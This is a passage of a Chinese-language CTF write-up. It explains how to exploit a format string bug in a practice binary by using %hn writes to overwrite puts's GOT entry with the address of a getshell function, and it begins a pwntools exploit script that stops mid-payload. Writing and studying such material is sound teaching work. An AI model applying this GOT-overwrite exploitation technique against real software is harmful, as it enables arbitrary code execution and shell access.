 
可以看到我们输入的第一个参数是放在第六个参数上
注：x64的程序的参数是先放在`$rdi, $rsi, $rdx, $rcx, $r8, $r9`,其次再依次放到栈上

然后我们要怎样利用这个漏洞呢？主要的思想就是要把puts_got指向的地址改为getshell函数的地址，当调用puts函数的时候就会成功跳转到system地址去执行，即可getshell。

怎样改puts_got地址呢？了解过[格式化字符串漏洞](https://blog.csdn.net/prettyday/article/details/50366608)的同学都知道`%n`的威力，可以把一个任意值写到任意地址上，因此就有一个任意地址写的功能。
`%n`功能是将%n之前printf已经打印的字符个数赋值给传入的指针。通过%n我们就可以修改内存中的值了

其中
```
%n-->4字节
%lln-->8字节
%lx-->8字节（64位）
%hn-->2字节
%hhn-->1字节
```

然后我们需要用`%{}c%{}$hn`实现把特定的的值写到第几个参数的地址上，然后这个参数的地址已经被我们写好了的。
```
 addr[0x601018] = 0x08c9
 addr[0x60101a] = 0x0040
 addr[0x60101c] = 0x0000
 addr[0x60101e] = 0x0000
 0x601018 => 0x004008c9
```
其中要注意的是我们的%n是把前面打印出来的所有字符数量写入地址，但是又因为其是两个字节大小(最大值为0xffff)，所以如果值为`0x10000`等价于`0x0000`就是利用这一点就可以把某个特定值写到特定地址上了。

写出脚本

脚本：
```
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context(terminal = 'zsh')

p = process('fsb_easy')  #,env = {'LD_PRELOAD' : ',.libc.so.6'})
#libc = ELF('libc.so.6')
elf = ELF('fsb_easy')

puts_got = elf.got["puts"]
#puts_got = 0x601018
print hex(puts_got)
#pause()
get_shell = 0x4008c9

'''
 addr[0x601018] = 0x08c9
 addr[0x60101a] = 0x0040
 addr[0x60101c] = 0x0000
 addr[0x60101e] = 0x0000
 0x601018 => 0x004008c9
 
'''

def s_sub(a,b):
    if a<b:
       return 0x10000 + a - b #hn,高位会被忽略掉，意思就是说  0x10000 + a - b + b = a
    return a - b 

n = 6 + 8
pattern = "%{}c%{}$hn" #{}里面最大是五位数0x1000-->65536（四个字节）
#13个字符--->16 (1+5+1+1+2+1+1+1)

payload = ""
```